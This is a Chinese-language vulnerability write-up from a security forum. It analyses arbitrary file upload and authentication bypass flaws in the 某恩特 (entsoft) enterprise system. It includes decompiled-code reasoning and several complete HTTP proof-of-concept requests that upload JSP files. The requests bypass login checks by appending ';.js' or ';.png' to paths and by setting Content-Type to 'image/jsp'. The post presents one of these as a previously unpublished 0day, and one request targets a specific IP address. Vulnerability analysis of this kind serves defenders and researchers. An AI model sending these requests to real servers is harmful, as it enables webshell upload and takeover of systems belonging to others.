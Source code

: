 

# 某恩特漏洞分析 - 先知社区

某恩特漏洞分析

- - -

0X01 前言  
最近这段时间某恩特，公众号到处在发，该系统的0day漏洞，可谓是漫天飞了，且利用方式也及其简单，本文就是对该系统目前所爆出来的漏洞进行一个漏洞分析，并在最后给出一个该系统未被公布的0day  
基本上都是这两天的，非常的集中  
[![](assets/1700545080-4de77c3fd1fa5ba9697af31eb758ef09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121095118-76d6be52-8810-1.png)

0X02 漏洞分析  
我们来看一下最开始原始的POC

POST /entsoft\_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1  
Host: x.x.x.x  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_14\_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15  
Connection: close  
Content-Length: 27  
Accept: */*  
Accept-Encoding: gzip, deflate  
Accept-Language: en  
Content-Type: application/x-www-form-urlencoded

11111  
定位到fileupload.jsp文件,只能说相当的简单粗暴有没有，获取输入流，获取文件名，直接保存导致任意文件上传的发生  
[![](assets/1700545080-c69c9a446a3e5e3c56b6f7dfe80ffa74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140031-f26fe23a-86a0-1.png)  
但实际在测试过程中，发现该漏洞影响范围并不是很多，很多均进行了修复，我在测试过程中仅仅成功了2个  
[![](assets/1700545080-4b7e76abaac380f47624b4f6e858df8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140037-f5db5fee-86a0-1.png)  
且这套系统对jsp之类的脚本文件均做了鉴权，也就是说先前爆出来的漏洞fileupload.jsp在开发者允许访问白名单中  
[![](assets/1700545080-ad4ec6403cdc0153e8a990e74e895835.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140042-f924eb52-86a0-1.png)  
继续深入探索，查看web.xml,发现Filter，通过jd-gui反编译common.jar文件即可查看相关代码  
[![](assets/1700545080-e2d833d7a6a3fe0b9dd9ab85e48b1da8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140048-fc632f86-86a0-1.png)  
从字面意思上，就可以看见排除了如下后缀，和路径文件  
[![](assets/1700545080-17eea2480839a504d92aa21444377f3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140054-ffdf9ece-86a0-1.png)  
其判断鉴权部分模块，通过contains来判断是否包含需要排除的字符和路径  
[![](assets/1700545080-62a8e58e60ac49a479a4ff29eec89e31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140101-040a34aa-86a1-1.png)  
所以访问jsp文件或者需要登录的文件我们可以通过在后缀;.js ;.jpg;.html等方式绕过登录限制  
[![](assets/1700545080-91655dd4e0fb1dc653d48c7ef75929b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140110-09b8bbc4-86a1-1.png)  
[![](assets/1700545080-bac142f8d6d79df23a7fd2b6cbb27cb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140115-0c855d94-86a1-1.png)  
而entsoft\_en也赫然在列，再去看看entsoft中的filupload.jsp,和其他相关的upload  
[![](assets/1700545080-76e0d41acc00e2de3e671647f3526d66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140121-0fff1d66-86a1-1.png)  
依然是个妥妥的任意文件上传，只不过判断了文件是否是jpg，如果是后缀就变成了jpeg  
[![](assets/1700545080-b40026e8fa4496cebc452ddc05da3d85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140126-13548032-86a1-1.png)  
继续查看web.xml  
[![](assets/1700545080-b3e2869f7f2a503b20c0b313f2be9008.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140131-1658d6b6-86a1-1.png)  
定位到实现类，  
[![](assets/1700545080-85db2028c97340adcaefecf221d2922c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140220-337876ac-86a1-1.png)  
反编译查看  
[![](assets/1700545080-debb59d71de69659cacfc43c65f4e221.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140225-362a11da-86a1-1.png)  
定位到MailAction，获取到了三个参数，method，act，eid，后面判断method和act是对应的值，如果是则跳到对应的实现方法中，比如saveAttaFile�  
我们主要看获取文件名的操作，以及文件名是否可控，可以看见，并未对文件后缀进行任何过滤，导致任意文件上传的发生  
[![](assets/1700545080-489a971f8ada98b6abb00d253cebb51f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140231-39a77a50-86a1-1.png)  
利用POC  
POST /entsoft/MailAction.entphone;.png?act=saveAttaFile HTTP/1.1  
Host: xx  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A  
Content-Length: 179

\------WebKitFormBoundarye8FPHsIAq9JN8j2A  
Content-Disposition: form-data; name="file";filename="beautif.js"  
Content-Type: xxx/txt

1  
\------WebKitFormBoundarye8FPHsIAq9JN8j2A--  
POC中的;.png同上，绕过登录限制，继续查看该代码文件发现其AppUpload�方法也存在文件上传功能，其文件名判断了contentype是否不为空，以及contentype是否包含image，之后在取contentype中的值作为后缀，我们可以通过image/jsp绕过

[![](assets/1700545080-7c30ded05422f7dc3c98057d93b8e63e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140242-40bbe880-86a1-1.png)

[![](assets/1700545080-2d2b4bd0030d128f3fd5670347988637.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140250-45245cae-86a1-1.png)

[![](assets/1700545080-2345d3487747a6d7e113b4cef5de63eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119140254-478e2948-86a1-1.png)

最新的POC  
POST /entsoft/MailAction.entphone;.js?act=AppUpload&bodyID=1 HTTP/1.1  
Host: 47.91.254.208  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
X-Requested-With: XMLHttpRequest  
Content-Type: multipart/form-data; boundary=---------------------------255059884712683317431739889351  
Content-Length: 259  
Origin:  
Connection: close  
Referer:  
Cookie:

\-----------------------------255059884712683317431739889351  
Content-Disposition: form-data; name="file"; filename="1.png"  
Content-Type: image/jsp

<%= (new java.util.Date()).toLocaleString()%>  
\-----------------------------255059884712683317431739889351--  
其他Action中基本上只要有上传基本上都有该类问题，比如/entsoft/CustomerAction.entphone;.js?method=loadFile，注入什么的也不少，该有的漏洞他都有，主要该系统影响的范围也不小，基本上都是通杀的类型。  
0X03 总结  
感觉最值得利用的一点就是鉴权绕过的方式，我们在黑盒测试的过程中，可以多试试;.js ;.png 之类的方式，以及通过/xxx可访问的路径/../鉴权路径目录穿越的方式，说不定也有奇效，总之需要不断的学习呀，如有问题欢迎各位师傅指正。
